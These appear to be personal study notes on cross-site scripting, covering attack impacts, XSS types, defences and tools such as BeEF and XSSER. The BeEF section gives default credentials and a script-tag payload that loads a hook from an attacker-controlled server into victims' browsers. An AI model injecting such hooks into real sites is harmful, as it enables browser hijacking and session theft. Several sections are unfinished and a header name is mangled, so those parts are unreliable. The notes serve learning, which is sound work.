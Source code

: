 # Cross-site-scripting


Cross-site-scripting, or XSS as it is sometimes abbreviated to, is an attack that let's the attacker execute javascript code in the browser of the victim.

## So, what's the worst that can happen?
The attacker is probably not that interestd in changing the color or font of the website the victim is visiting. Although s/he could do that. The worst that can happen is probablt the following:

1. Complete control over the browser
The attacker can access plugins. Like password managers. The attacker can trick the user into allowing webcam or audio. 

2. Session-hijacking/Cookie theft
This is when the attacker steals the cookie that is saved in the browser. Using this cookie the attacker can log in to the service as the victim, and thereby gain access to his/her account. If the victim is an admin that has extended privileges (uploading code, images, or whatever) this could lead to a compromise of the server itself.

3. Keylogger
The attacker can execute a keylogging-script that steals everything the user inputs in the website. This could be used to steal sensitive information, like passwords, credit cards information, chatlogs or whatever the user inputs.

4. Phishing
The attacker can insert a fake login. Image that you visit a site, and from that site you are able to login using your facebook or google-account. The attacker could spoof that so that when you enter your credencials, they are then sent to the attacker. 



### Types of XSS

1. Persistent
This is when the malicious code originates from the websites database. That means the attacker has managed to insert malicious code into the database. So every time the database serve that data the script will me executed. this is probably the most dangerous XSS, since it does not need to rely on social engineering.

2. Reflected
This is an attack where the script originates from the users request. This might seem a bit illogical, why would a user inject malicious code to himself? Well the code can 

3. DOM based
DOM-based attacks are when something is injected into javascript on the DOM. So, it does not go by the server. Because the code gets executed in the response.
Take a search-functionality for example. The users enters a search-parameter that gets sent to the server which might sanitize it or something. In the response the found search-items are sent, but not the search-query. But on the webpage the search query is exposed. "You searched for X" is shown. That is because it gets the search parameter from the url-parameter. By using `document.location.href` for example.

## Beef

Beef username/password: beef:beef
Beef is a great tool for attacking browsers. 

After starting it up you can log in to the panel. Then you get someone to execute the hook.
Hook URL: http://172.17.15.118:3000/hook.js
UI URL:   http://172.17.15.118:3000/ui/panel

By injecting the hook into a XSS. Like this

```javascript
<script src="http://172.17.15.118:3000/hook.js"></script>
```


### How does it really work?
Let's look at a practical example.


### Protect yourself

The problem with XSS is that it is a bit hard for the users to protect themselves. If there is a problem witht the website there is not that much the user can do.

One can always use noscript to block all javascript code. But that pretty much destroys the whole experience with using the internet.

### Protect your website

There are mainly two ways to protect against ** encoding ** and ** sanitizing **.

#### Encoding


Of course the way to protect your website is to sanitize all input. 

You can also set the response-header like this:
`-xss-protection:"1; mode=block"`

For nodeJs you can use the helmet-module to do this.
https://www.npmjs.com/package/helmet


### Risks for the attacker
The obvious risk is that the attacker must expose a server. 

### Tools

#### XSSER

This tool tests a lot of 

`xsser --gtk`


#### Xssposed
This is a tool found in recon-ng. It basically just check this (https://www.openbugbounty.org/
) database to see if anyone has reported a xss for the website.





###References:

http://brutelogic.com.br/blog/probing-to-find-xss/
http://excess-xss.com/

